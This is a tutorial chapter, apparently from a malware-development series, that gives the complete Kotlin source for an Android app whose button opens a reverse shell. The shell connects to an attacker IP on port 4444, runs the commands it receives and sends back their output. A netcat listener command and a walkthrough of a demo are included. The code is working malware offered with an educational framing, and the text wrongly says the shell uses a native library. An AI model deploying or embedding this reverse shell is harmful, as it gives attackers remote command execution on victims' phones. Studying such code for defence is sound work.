


## 8. mobile malware development trick. Socket development. Simple Android (Java/Kotlin) example.

﷽

{width="80%"}      

On Android, you can write a reverse shell in Kotlin that will work within the permissions available to the user. Such a reverse shell can use Android's capabilities to interact with a remote server via a socket and does not require access to the file system.        

### practical example

We can use sockets to create a communication channel with a remote server, and send commands through this channel. Instead of using the `execve()` command, we will execute commands using *Java ProcessBuilder*.     

Your project looks like there (`HackRev2` in my case):     

{width="80%"}       

Let's start by looking at the Android app. We'll create a simple button that triggers a Toast message and also loads a native library that contains the reverse shell functionality.      

Simple reverse shell example in Kotlin:     

```kotlin
package com.example.hackrev

import android.os.Bundle
import android.widget.Button
import android.widget.Toast
import androidx.activity.ComponentActivity
import java.io.BufferedReader
import java.io.InputStreamReader
import java.io.OutputStream
import java.net.Socket

class MainActivity : ComponentActivity() {
    private lateinit var meowButton: Button

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            Toast.makeText(
                applicationContext,
                "Meow! Reverse Shell Activated!",
                Toast.LENGTH_SHORT
            ).show()

            // start the reverse shell in a background thread
            Thread {
                startReverseShell("172.16.16.251", 4444) // your attacker's IP and port
            }.start()
        }
    }

    private fun startReverseShell(remoteHost: String, remotePort: Int) {
        try {
            // create a socket connection to the attacker's machine
            val socket = Socket(remoteHost, remotePort)
            val inputStream = socket.getInputStream()
            val outputStream = socket.getOutputStream()

            val reader = BufferedReader(InputStreamReader(inputStream))
            val writer = outputStream.bufferedWriter()

            // send a welcome message to the attacker
            writer.write("connected to android reverse shell! meow =^..^=\n")
            writer.flush()

            // create a process to run shell commands
            while (true) {
                // read commands from the attacker
                val command = reader.readLine()

                if (command == null || command.equals("exit", ignoreCase = true)) {
                    break
                }

                // execute the command
                val process = ProcessBuilder(command.split(" ")).start()

                // get the process output
                val processReader = BufferedReader(InputStreamReader(process.inputStream))
                val processOutput = StringBuilder()
                var line: String?
                while (processReader.readLine().also { line = it } != null) {
                    processOutput.append(line).append("\n")
                }

                // send back the output of the command to the attacker
                writer.write(processOutput.toString())
                writer.flush()
            }

            // close resources
            writer.close()
            reader.close()
            socket.close()

        } catch (e: Exception) {
            e.printStackTrace()
        }
    }
}
```

We create a socket to connect to the remote host using `Socket(remoteHost, remotePort)`.      

This allows us to establish two-way communication between the device and the attacker's server.     

Then, we use `BufferedReader` to read commands sent over the socket (for example, the command the attacker wants to run on the device).     

The commands are executed using `ProcessBuilder`. This allows us to run processes on Android, but since we don't have file system access, we will limit ourselves to standard commands that can be executed within the bash shell or similar.        

Then sending back results: the result of the command execution is read and sent back over the socket, so the attacker can see the output.     

After finishing the work, we close the socket connection to finish the session.       

The socket connection is established using the remote host IP and port defined in the code, in my case IP `172.16.16.251`:       

{width="80%"}       

This is a "dirty PoC", on some devices it may not work, this is due to limitations in Android.      

### demo

On the attacker's machine, as usually use netcat or any other tool to listen for the incoming connection:    

```bash
nc -nlvp 4444
```

this will listen on port 4444 for incoming connections from the Android device:    

{width="80%"}       

After installing the app on the target device, click the button to trigger the reverse shell:     

{width="80%"}       

{height="30%"}     

{width="80%"}     

{width="80%"}     

If everything is set up correctly, the attacker's Netcat listener will receive the shell from the Android device.     

{width="80%"}      

In this tutorial, we’ve walked through how to build a simple reverse shell that works on an Android device using Kotlin. By combining Kotlin for the frontend interface and native logic for the reverse shell functionality, we created an app that listens for user input to trigger a remote shell.      

This example highlights how an Android app can be used to silently execute malicious code, opening the door to remote control over the device. Understanding these techniques is critical for both penetration testers and security researchers to help secure Android applications against such exploits.      

Keep in mind that this method is a basic demonstration for educational purposes, and ethical hacking practices should always be followed when testing security.      

I hope this section with practical example is useful for entry level malware researchers, red teamers, spreads awareness to the blue teamers of this simple example.    

[Android Studio](https://developer.android.com/studio)     
[Socket](https://developer.android.com/reference/java/net/Socket)      
[InputStreamReader](https://developer.android.com/reference/java/io/InputStreamReader?hl=en)      
[BufferedReader](https://developer.android.com/reference/java/io/BufferedReader?hl=en)     
[ProcessBuilder](https://developer.android.com/reference/java/lang/ProcessBuilder?hl=en)     